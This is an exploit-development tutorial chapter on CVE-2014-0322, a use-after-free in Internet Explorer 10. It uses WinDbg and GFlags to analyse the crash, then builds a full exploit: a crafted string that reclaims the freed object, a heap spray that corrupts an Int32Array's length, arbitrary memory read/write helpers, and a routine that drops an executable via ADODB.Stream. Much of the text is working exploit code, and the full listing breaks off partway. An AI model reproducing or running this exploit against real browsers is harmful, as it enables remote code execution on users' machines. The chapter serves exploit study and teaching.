







Until now, we have depended on WinDbg for modifying the length of an Int32Array to acquire full read/write access to the space address of the IE process. It’s high time we found a UAF to complete our exploit.
I chose the UAF with code CVE-2014-0322. You can google for it if you want additional information. Here’s the POC to produce the crash:
<!-- CVE-2014-0322 -->
<html>
<head>
</head>
<body>
<script>
function handler() {
this.outerHTML = this.outerHTML;
}
function trigger() {
var a = document.getElementsByTagName("script")[0];
a.onpropertychange = handler;
var b = document.createElement("div");
b = a.appendChild(b);
}
trigger();
</script>
</body>
</html>
Copy and paste that code in an HTML file and open it in IE 10. If you do this, you’ll discover that IE doesn’t crash. What’s wrong?
GFlags
In the same directory as WinDbg, we can find gflags.exe, a utility which can be used to change the Global Flags of Windows. These flags influence the behavior of Windows and can be immensely helpful during debugging. We’re especially interested in two flags:
- HPA – Heap Page Allocator
- UST – User mode Stack Trace
The flag HPA tells Windows to use a special version of the heap allocator that’s useful to detect UAF, buffer overflows and other kinds of bugs. It works by allocating each block in a separate set of contiguous pages (how many depends on the length of the block) so that the end of the block coincides with the end of the last page. The first page after the allocated block is marked as not present. This way, buffer overflows are easily and efficiently detectable. Moreover, when a block is deallocated, all the pages containing it are marked as not present. This makes UAF easy to detect.
Look at the following picture:

A page is 0x1000 bytes = 4 KB. If the allocated block is less than 4 KB, its size can be easily determined from its address with this simple formula:
{kind=link}
size(addr) = 0x1000 - (addr & 0xfff)
This formula works because the block is allocated at the end of the page containing it. Have a look at the following picture:

The second flag, UST, tells Windows to save a stack trace of the current stack whenever a heap block is allocated or deallocated. This is useful to see which function and path of execution led to a particular allocation or deallocation. We’ll see an example during the analysis of the UAF bug.
{kind=link}
Global flags can be changed either globally or on a per image file basis. We’re interested in enabling the flags HPA and UST just for iexplore.exe so we’re going to choose the latter.
Run gflags.exe, go to the tab Image File, insert the image name and select the two flags as illustrated in the following picture:
{kind=link}
Getting the crash
Now load the POC in IE and you should get a crash. If we do the same while debugging IE in WinDbg, we’ll see which instruction generates the exception:
6b900fc4 e83669e6ff call MSHTML!CTreePos::SourceIndex (6b7678ff) 6b900fc9 8d45a8 lea eax,[ebp-58h] 6b900fcc 50 push eax 6b900fcd 8bce mov ecx,esi 6b900fcf c745a804000000 mov dword ptr [ebp-58h],4 6b900fd6 c745c400000000 mov dword ptr [ebp-3Ch],0 6b900fdd c745ac00000000 mov dword ptr [ebp-54h],0 6b900fe4 c745c028000000 mov dword ptr [ebp-40h],28h 6b900feb c745b400000000 mov dword ptr [ebp-4Ch],0 6b900ff2 c745b000000000 mov dword ptr [ebp-50h],0 6b900ff9 c745b8ffffffff mov dword ptr [ebp-48h],0FFFFFFFFh 6b901000 c745bcffffffff mov dword ptr [ebp-44h],0FFFFFFFFh 6b901007 e80162e6ff call MSHTML!CMarkup::Notify (6b76720d) 6b90100c ff4678 inc dword ptr [esi+78h] ds:002b:0e12dd38=???????? <--------------------- 6b90100f 838e6001000004 or dword ptr [esi+160h],4 6b901016 8bd6 mov edx,esi 6b901018 e8640b0600 call MSHTML!CMarkup::UpdateMarkupContentsVersion (6b961b81) 6b90101d 8b8698000000 mov eax,dword ptr [esi+98h] 6b901023 85c0 test eax,eax 6b901025 7416 je MSHTML!CMarkup::NotifyElementEnterTree+0x297 (6b90103d) 6b901027 81bea4010000905f0100 cmp dword ptr [esi+1A4h],15F90h 6b901031 7c0a jl MSHTML!CMarkup::NotifyElementEnterTree+0x297 (6b90103d) 6b901033 8b4008 mov eax,dword ptr [eax+8] 6b901036 83a0f0020000bf and dword ptr [eax+2F0h],0FFFFFFBFh 6b90103d 8d7dd8 lea edi,[ebp-28h]
It looks like ESI is a dangling pointer.
Here’s the stack trace:
0:007> k 10 ChildEBP RetAddr 0a10b988 6b90177b MSHTML!CMarkup::NotifyElementEnterTree+0x266 0a10b9cc 6b9015ef MSHTML!CMarkup::InsertSingleElement+0x169 0a10baac 6b901334 MSHTML!CMarkup::InsertElementInternalNoInclusions+0x11d 0a10bad0 6b9012f6 MSHTML!CMarkup::InsertElementInternal+0x2e 0a10bb10 6b901393 MSHTML!CDoc::InsertElement+0x9c 0a10bbd8 6b7d0420 MSHTML!InsertDOMNodeHelper+0x454 0a10bc50 6b7d011c MSHTML!CElement::InsertBeforeHelper+0x2a8 0a10bcb4 6b7d083c MSHTML!CElement::InsertBeforeHelper+0xe4 0a10bcd4 6b7d2de4 MSHTML!CElement::InsertBefore+0x36 0a10bd60 6b7d2d01 MSHTML!CElement::Var_appendChild+0xc7 0a10bd90 0c17847a MSHTML!CFastDOM::CNode::Trampoline_appendChild+0x55 0a10bdf8 0c176865 jscript9!Js::JavascriptExternalFunction::ExternalFunctionThunk+0x185 0a10bf94 0c175cf5 jscript9!Js::InterpreterStackFrame::Process+0x9d4 0a10c0b4 09ee0fe1 jscript9!Js::InterpreterStackFrame::InterpreterThunk<1>+0x305 WARNING: Frame IP not in any known module. Following frames may be wrong. 0a10c0c0 0c1764ff 0x9ee0fe1 0a10c254 0c175cf5 jscript9!Js::InterpreterStackFrame::Process+0x1b57
Let’s determine the size of the (now freed) object:
0:007> ? 1000 - (@esi & fff) Evaluate expression: 832 = 00000340
Of course, we’re assuming that the object size is less than 0x1000. Finally, here’s an example of stack trace available thanks to the UST flag:
0:007> !heap -p -a @esi
address 0e12dcc0 found in
_DPH_HEAP_ROOT @ 141000
in free-ed allocation ( DPH_HEAP_BLOCK: VirtAddr VirtSize)
e2d0b94: e12d000 2000
733990b2 verifier!AVrfDebugPageHeapFree+0x000000c2
772b1564 ntdll!RtlDebugFreeHeap+0x0000002f
7726ac29 ntdll!RtlpFreeHeap+0x0000005d
772134a2 ntdll!RtlFreeHeap+0x00000142
74f414ad kernel32!HeapFree+0x00000014
6b778f06 MSHTML!CMarkup::`vector deleting destructor'+0x00000026
6b7455da MSHTML!CBase::SubRelease+0x0000002e
6b774183 MSHTML!CMarkup::Release+0x0000002d
6bb414d1 MSHTML!InjectHtmlStream+0x00000716
6bb41567 MSHTML!HandleHTMLInjection+0x00000082
6bb3cfec MSHTML!CElement::InjectInternal+0x00000506
6bb3d21d MSHTML!CElement::InjectTextOrHTML+0x000001a4
6ba2ea80 MSHTML!CElement::put_outerHTML+0x0000001d <----------------------------------
6bd3309c MSHTML!CFastDOM::CHTMLElement::Trampoline_Set_outerHTML+0x00000054 <---------------------
0c17847a jscript9!Js::JavascriptExternalFunction::ExternalFunctionThunk+0x00000185
0c1792c5 jscript9!Js::JavascriptArray::GetSetter+0x000000cf
0c1d6c56 jscript9!Js::InterpreterStackFrame::OP_ProfiledSetProperty<0,Js::OpLayoutElementCP_OneByte>+0x000005a8
0c1ac53b jscript9!Js::InterpreterStackFrame::Process+0x00000fbf
0c175cf5 jscript9!Js::InterpreterStackFrame::InterpreterThunk<1>+0x00000305This proves that ESI is indeed a dangling pointer. The names of the functions suggest that the object is deallocated while executing the assignment
this.outerHTML = this.outerHTML;
inside the function handler. This means that we should allocate the new object to replace the old one in memory right after that assignment. We already saw how UAF bugs can be exploited in the chapter exploitme5 (Heap spraying & UAF) so I won’t repeat the theory here.
What we need is to allocate an object of the same size of the deallocated object. This way, the new object will be allocated in the same portion of memory which the deallocated object occupied. We know that the object is 0x340 bytes, so we can create a null-terminated Unicode string of 0x340/2 – 1 = 0x19f = 415 wchars.
First of all, let’s pinpoint the exact point of crash:
0:007> !address @eip
Mapping file section regions...
Mapping module regions...
Mapping PEB regions...
Mapping TEB and stack regions...
Mapping heap regions...
Mapping page heap regions...
Mapping other regions...
Mapping stack trace database regions...
Mapping activation context regions...
Usage: Image
Base Address: 6c4a1000
End Address: 6d0ef000
Region Size: 00c4e000
State: 00001000 MEM_COMMIT
Protect: 00000020 PAGE_EXECUTE_READ
Type: 01000000 MEM_IMAGE
Allocation Base: 6c4a0000
Allocation Protect: 00000080 PAGE_EXECUTE_WRITECOPY
Image Path: C:\Windows\system32\MSHTML.dll
Module Name: MSHTML
Loaded Image Name: C:\Windows\system32\MSHTML.dll
Mapped Image Name:
More info: lmv m MSHTML
More info: !lmi MSHTML
More info: ln 0x6c6c100c
More info: !dh 0x6c4a0000
0:007> ? @eip-mshtml
Evaluate expression: 2232332 = 0022100cSo the exception is generated at mshtml + 0x22100c. Now close WinDbg and IE, run them again, open the POC in IE and put a breakpoint on the crashing point in WinDbg:
bp mshtml + 0x22100c
Now allow the blocked content in IE and the breakpoint should be triggered right before the exception is generated. This was easy. This is not always the case. Sometimes the same piece of code is executed hundreds of times before the exception is generated.
Now we can try to allocate a new object of the right size. Let’s change the POC as follows:
<!-- CVE-2014-0322 -->
<html>
<head>
</head>
<body>
<script>
function handler() {
this.outerHTML = this.outerHTML;
elem = document.createElement("div");
elem.className = new Array(416).join("a"); // Nice trick to generate a string with 415 "a"
}
function trigger() {
var a = document.getElementsByTagName("script")[0];
a.onpropertychange = handler;
var b = document.createElement("div");
b = a.appendChild(b);
}
trigger();
</script>
</body>
</html>
Note the nice trick to create a string with 415 “a“!
Before opening the POC in IE, we need to disable the flags HPA and UST (UST is not a problem, but let’s disable it anyway):

Now let’s reopen the POC in IE, put a breakpoint at mshtml + 0x22100c and let’s see what happens:
{kind=link}

Wonderful! ESI points to our object (0x61 is the code point for the character ‘a‘) and now we can take control of the execution flow. Our goal is to reach and control an instruction so that it writes 0x20 at the address 0x0c0af01b. You should know this address by heart by now!
{kind=link}
You might be wondering why we assign a string to the className property of a DOM element. Note that we don’t just write
var str = new Array(416).join("a");When we assign the string to elem.className, the string is copied and the copy is assigned to the property of the DOM element. It turns out that the copy of the string is allocated on the same heap where the object which was freed due to the UAF bug resided. If you try to allocate, for instance, an ArrayBuffer of 0x340 bytes, it won’t work, because the raw buffer for the ArrayBuffer will be allocated on another heap.
Controlling the execution flow
The next step is to see if we can reach a suitable instruction to write to memory at an arbitrary address starting from the crash point. Once again, we’ll use IDA. I can’t stress enough how useful IDA is.
We determined the address of the crash point to be mshtml + 0x22100c. This means that we need to disassemble the library mshtml.dll. Let’s find the path:
0:016> lmf m mshtml start end module name 6b6e0000 6c491000 MSHTML C:\Windows\system32\MSHTML.dll
Now let’s open that .dll in IDA and, when asked, allow IDA to load symbols from the Microsoft server. Let’s go to View→Open subviews→Segments. From there we can determine the base address of mshtml:

As we can see, the base address is 0x63580000. Now close the Program Segmentation tab, press g and enter 0x63580000+0x22100c. You should find yourself at the crash location.
{kind=link}
Let’s start with the analysis:

The value of [esi+98h] must be non 0 because our string can’t contain null wchars (they would terminate the string prematurely, being the string null-terminated). Because of this, the execution reaches the second node where [esi+1a4h] is compared with 15f90h. We can choose [esi+1a4h] = 11111h so that the third node is skipped and a crash is easily avoided, but we could also set up things so that [eax+2f0h] is writable.
{kind=link}
Now let’s look at the function ?UpdateMarkupContentsVersion:

The picture should be clear enough. Anyway, there’s an important point to understand. We know that the Int32Array whose length we want to modify is at address 0xc0af000, but we don’t control the values at that address. We know, however, that the value at 0xc0af01c is the address of the raw buffer associated with the Int32Array. Note that we don’t know the address of the raw buffer, but we know that we can find that address at 0xc0af01c. Now we must make sure that the dword at offset 1c0h in the raw buffer is 0. Unfortunately, the raw buffer is only 0x58 bytes. Remember that we can’t allocate a bigger raw buffer because it must have the exact same size of a LargeHeapBlock. But there is an easy solution: allocate more raw buffers!
{kind=link}
Let’s summarize our memory layout:
Object size = 0x340 = 832
offset: value
94h: 0c0af010h
(X = [obj_addr+94h] = 0c0af010h ==> Y = [X+0ch] = raw_buf_addr ==> [Y+1c0h] is 0)
0ach: 0c0af00bh
(X = [obj_addr+0ach] = 0c0af00bh ==> inc dword ptr [X+10h] ==> inc dword ptr [0c0af01bh])
1a4h: 11111h
(X = [obj_addr+1a4h] = 11111h < 15f90h)We need to make several changes to our html file.
First, we add the code for triggering the UAF bug and taking control of the execution flow:
function getFiller(n) {
return new Array(n+1).join("a");
}
function getDwordStr(val) {
return String.fromCharCode(val % 0x10000, val / 0x10000);
}
function handler() {
this.outerHTML = this.outerHTML;
// Object size = 0x340 = 832
// offset: value
// 94h: 0c0af010h
// (X = [obj_addr+94h] = 0c0af010h ==> Y = [X+0ch] = raw_buf_addr ==> [Y+1c0h] is 0)
// 0ach: 0c0af00bh
// (X = [obj_addr+0ach] = 0c0af00bh ==> inc dword ptr [X+10h] ==> inc dword ptr [0c0af01bh])
// 1a4h: 11111h
// (X = [obj_addr+1a4h] = 11111h < 15f90h)
elem = document.createElement("div");
elem.className = getFiller(0x94/2) + getDwordStr(0xc0af010) +
getFiller((0xac - (0x94 + 4))/2) + getDwordStr(0xc0af00b) +
getFiller((0x1a4 - (0xac + 4))/2) + getDwordStr(0x11111) +
getFiller((0x340 - (0x1a4 + 4))/2 - 1); // -1 for string-terminating null wchar
}
function trigger() {
var a = document.getElementsByTagName("script")[0];
a.onpropertychange = handler;
var b = document.createElement("div");
b = a.appendChild(b);
}
Next, we must create 4 more ArrayBuffer, as we’ve already discussed:
a = new Array();
// 8-byte header | 0x58-byte LargeHeapBlock
// 8-byte header | 0x58-byte LargeHeapBlock
// 8-byte header | 0x58-byte LargeHeapBlock
// .
// .
// .
// 8-byte header | 0x58-byte LargeHeapBlock
// 8-byte header | 0x58-byte ArrayBuffer (buf)
// 8-byte header | 0x58-byte ArrayBuffer (buf2)
// 8-byte header | 0x58-byte ArrayBuffer (buf3)
// 8-byte header | 0x58-byte ArrayBuffer (buf4)
// 8-byte header | 0x58-byte ArrayBuffer (buf5)
// 8-byte header | 0x58-byte LargeHeapBlock
// .
// .
// .
for (i = 0; i < 0x300; ++i) {
a[i] = new Array(0x3c00);
if (i == 0x100) {
buf = new ArrayBuffer(0x58); // must be exactly 0x58!
buf2 = new ArrayBuffer(0x58); // must be exactly 0x58!
buf3 = new ArrayBuffer(0x58); // must be exactly 0x58!
buf4 = new ArrayBuffer(0x58); // must be exactly 0x58!
buf5 = new ArrayBuffer(0x58); // must be exactly 0x58!
}
for (j = 0; j < a[i].length; ++j)
a[i][j] = 0x123;
}
Having added 4 more ArrayBuffers, we also need to fix the code which computes the address of the first raw buffer:
// This is just an example.
// The buffer of int32array starts at 03c1f178 and is 0x58 bytes.
// The next LargeHeapBlock, preceded by 8 bytes of header, starts at 03c1f1d8.
// The value in parentheses, at 03c1f178+0x60+0x24, points to the following
// LargeHeapBlock.
//
// 03c1f178: 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
// 03c1f198: 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
// 03c1f1b8: 00000000 00000000 00000000 00000000 00000000 00000000 014829e8 8c000000
// ... we added four more raw buffers ...
// 03c1f1d8: 70796e18 00000003 08100000 00000010 00000001 00000000 00000004 0810f020
// 03c1f1f8: 08110000(03c1f238)00000000 00000001 00000001 00000000 03c15b40 08100000
// 03c1f218: 00000000 00000000 00000000 00000004 00000001 00000000 01482994 8c000000
// 03c1f238: ...
// We check that the structure above is correct (we check the first LargeHeapBlocks).
// 70796e18 = jscript9!LargeHeapBlock::`vftable' = jscript9 + 0x6e18
var vftptr1 = int32array[0x60*5/4],
vftptr2 = int32array[0x60*6/4],
vftptr3 = int32array[0x60*7/4],
nextPtr1 = int32array[(0x60*5+0x24)/4],
nextPtr2 = int32array[(0x60*6+0x24)/4],
nextPtr3 = int32array[(0x60*7+0x24)/4];
if (vftptr1 & 0xffff != 0x6e18 || vftptr1 != vftptr2 || vftptr2 != vftptr3 ||
nextPtr2 - nextPtr1 != 0x60 || nextPtr3 - nextPtr2 != 0x60) {
// alert("Error 1!");
window.location.reload();
return;
}
buf_addr = nextPtr1 - 0x60*6;
Basically, we changed int32array[0x60*N/4] into int32array[0x60*(N+4)/4] to account for the additional 4 raw buffers after the original raw buffer. Also, the last line was
buf_addr = nextPtr1 - 0x60*2
and has been changed to
buf_addr = nextPtr1 - 0x60*(2+4)
for the same reason.
I noticed that sometimes SaveToFile fails, so I decided to force the page to reload when this happens:
function createExe(fname, data) {
GodModeOn();
var tStream = new ActiveXObject("ADODB.Stream");
var bStream = new ActiveXObject("ADODB.Stream");
GodModeOff();
tStream.Type = 2; // text
bStream.Type = 1; // binary
tStream.Open();
bStream.Open();
tStream.WriteText(data);
tStream.Position = 2; // skips the first 2 bytes in the tStream (what are they?)
tStream.CopyTo(bStream);
var bStream_addr = get_addr(bStream);
var string_addr = read(read(bStream_addr + 0x50) + 0x44);
write(string_addr, 0x003a0043); // 'C:'
write(string_addr + 4, 0x0000005c); // '\'
try {
bStream.SaveToFile(fname, 2); // 2 = overwrites file if it already exists
}
catch(err) {
return 0;
}
tStream.Close();
bStream.Close();
return 1;
}
.
.
.
if (createExe(fname, decode(runcalc)) == 0) {
// alert("SaveToFile failed");
window.location.reload();
return 0;
}
Here’s the full code:
<html>
<head>
<script language="javascript">
function getFiller(n) {
return new Array(n+1).join("a");
}
function getDwordStr(val) {
return String.fromCharCode(val % 0x10000, val / 0x10000);
}
function handler() {
this.outerHTML = this.outerHTML;
// Object size = 0x340 = 832
// offset: value
// 94h: 0c0af010h
// (X = [obj_addr+94h] = 0c0af010h ==> Y = [X+0ch] = raw_buf_addr ==> [Y+1c0h] is 0)
// 0ach: 0c0af00bh
// (X = [obj_addr+0ach] = 0c0af00bh ==> inc dword ptr [X+10h] ==> inc dword ptr [0c0af01bh])
// 1a4h: 11111h
// (X = [obj_addr+1a4h] = 11111h < 15f90h)
elem = document.createElement("div");
elem.className = getFiller(0x94/2) + getDwordStr(0xc0af010) +
getFiller((0xac - (0x94 + 4))/2) + getDwordStr(0xc0af00b) +
getFiller((0x1a4 - (0xac + 4))/2) + getDwordStr(0x11111) +
getFiller((0x340 - (0x1a4 + 4))/2 - 1); // -1 for string-terminating null wchar
}
function trigger() {
var a = document.getElementsByTagName("script")[0];
a.onpropertychange = handler;
var b = document.createElement("div");
b = a.appendChild(b);
}
(function() {
// alert("Starting!");
CollectGarbage();
//-----------------------------------------------------
// From one-byte-write to full process space read/write
//-----------------------------------------------------
a = new Array();
// 8-byte header | 0x58-byte LargeHeapBlock
// 8-byte header | 0x58-byte LargeHeapBlock
// 8-byte header | 0x58-byte LargeHeapBlock
// .
// .
// .
// 8-byte header | 0x58-byte LargeHeapBlock
// 8-byte header | 0x58-byte ArrayBuffer (buf)
// 8-byte header | 0x58-byte ArrayBuffer (buf2)
// 8-byte header | 0x58-byte ArrayBuffer (buf3)
// 8-byte header | 0x58-byte ArrayBuffer (buf4)
// 8-byte header | 0x58-byte ArrayBuffer (buf5)
// 8-byte header | 0x58-byte LargeHeapBlock
// .
// .
// .
for (i = 0; i < 0x300; ++i) {
a[i] = new Array(0x3c00);
if (i == 0x100) {
buf = new ArrayBuffer(0x58); // must be exactly 0x58!
buf2 = new ArrayBuffer(0x58); // must be exactly 0x58!
buf3 = new ArrayBuffer(0x58); // must be exactly 0x58!
buf4 = new ArrayBuffer(0x58); // must be exactly 0x58!
buf5 = new ArrayBuffer(0x58); // must be exactly 0x58!
}
for (j = 0; j < a[i].length; ++j)
a[i][j] = 0x123;
}
// 0x0: ArrayDataHead
// 0x20: array[0] address
// 0x24: array[1] address
// ...
// 0xf000: Int32Array
// 0xf030: Int32Array
// ...
// 0xffc0: Int32Array
// 0xfff0: align data
for (; i < 0x300 + 0x400; ++i) {
a[i] = new Array(0x3bf8)
for (j = 0; j < 0x55; ++j)
a[i][j] = new Int32Array(buf)
}
// vftptr
// 0c0af000: 70583b60 031c98a0 00000000 00000003 00000004 00000000 20000016 08ce0020
// 0c0af020: 03133de0 array_len buf_addr
// jsArrayBuf
// We increment the highest byte of array_len 20 times (which is equivalent to writing 0x20).
for (var k = 0; k < 0x20; ++k)
trigger();
// Now let's find the Int32Array whose length we modified.
int32array = 0;
for (i = 0x300; i < 0x300 + 0x400; ++i) {
for (j = 0; j < 0x55; ++j) {
if (a[i][j].length != 0x58/4) {
int32array = a[i][j];
break;
}
}
if (int32array != 0)
break;
}
if (int32array == 0) {
// alert("Can't find int32array!");
window.location.reload();
return;
}
// This is just an example.
// The buffer of int32array starts at 03c1f178 and is 0x58 bytes.
// The next LargeHeapBlock, preceded by 8 bytes of header, starts at 03c1f1d8.
// The value in parentheses, at 03c1f178+0x60+0x24, points to the following
// LargeHeapBlock.
//
// 03c1f178: 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
// 03c1f198: 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
// 03c1f1b8: 00000000 00000000 00000000 00000000 00000000 00000000 014829e8 8c000000
// ... we added four more raw buffers ...
// 03c1f1d8: 70796e18 00000003 08100000 00000010 00000001 00000000 00000004 0810f020
// 03c1f1f8: 08110000(03c1f238)00000000 00000001 00000001 00000000 03c15b40 08100000
// 03c1f218: 00000000 00000000 00000000 00000004 00000001 00000000 01482994 8c000000
// 03c1f238: ...
// We check that the structure above is correct (we check the first LargeHeapBlocks).
// 70796e18 = jscript9!LargeHeapBlock::`vftable' = jscript9 + 0x6e18
var vftptr1 = int32array[0x60*5/4],
vftptr2 = int32array[0x60*6/4],
vftptr3 = int32array[0x60*7/4],
nextPtr1 = int32array[(0x60*5+0x24)/4],
nextPtr2 = int32array[(0x60*6+0x24)/4],
nextPtr3 = int32array[(0x60*7+0x24)/4];
if (vftptr1 & 0xffff != 0x6e18 || vftptr1 != vftptr2 || vftptr2 != vftptr3 ||
nextPtr2 - nextPtr1 != 0x60 || nextPtr3 - nextPtr2 != 0x60) {
// alert("Error 1!");
window.location.reload();
return;
}
buf_addr = nextPtr1 - 0x60*6;
// Now we modify int32array again to gain full address space read/write access.
if (int32array[(0x0c0af000+0x1c - buf_addr)/4] != buf_addr) {
// alert("Error 2!");
window.location.reload();
return;
}
int32array[(0x0c0af000+0x18 - buf_addr)/4] = 0x20000000; // new length
int32array[(0x0c0af000+0x1c - buf_addr)/4] = 0; // new buffer address
function read(address) {
var k = address & 3;
if (k == 0) {
// ####
return int32array[address/4];
}
else {
alert("to debug");
// .### #... or ..## ##.. or ...# ###.
return (int32array[(address-k)/4] >> k*8) |
(int32array[(address-k+4)/4] << (32 - k*8));
}
}
function write(address, value) {
var k = address & 3;
if (k == 0) {
// ####
int32array[address/4] = value;
}
else {
// .### #... or ..## ##.. or ...# ###.
alert("to debug");
var low = int32array[(address-k)/4];
var high = int32array[(address-k+4)/4];
var mask = (1 << k*8) - 1; // 0xff or 0xffff or 0xffffff
low = (low & mask) | (value << k*8);
high = (high & (0xffffffff - mask)) | (value >> (32 - k*8));
int32array[(address-k)/4] = low;
int32array[(address-k+4)/4] = high;
}
}
//---------
// God mode
//---------
// At 0c0af000 we can read the vfptr of an Int32Array:
// jscript9!Js::TypedArray<int>::`vftable' @ jscript9+3b60
jscript9 = read(0x0c0af000) - 0x3b60;
